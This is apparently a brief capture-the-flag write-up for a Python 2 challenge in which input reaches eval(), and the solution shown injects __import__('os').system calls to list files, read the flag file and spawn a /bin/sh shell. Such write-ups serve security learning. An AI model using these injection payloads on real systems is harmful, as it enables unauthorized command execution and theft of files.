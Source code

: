 # Exercise 2-2 Python 1+1 [100 points] (49 solves)
python 2 Vulnerability: Insecure use of `eval()`.
```bash
$ __import__('os').system("ls")
$ __import__('os').system("cat flag")
```

Alternatively:
```bash
$ __import__('os').system("/bin/sh")
$ cat flag
```
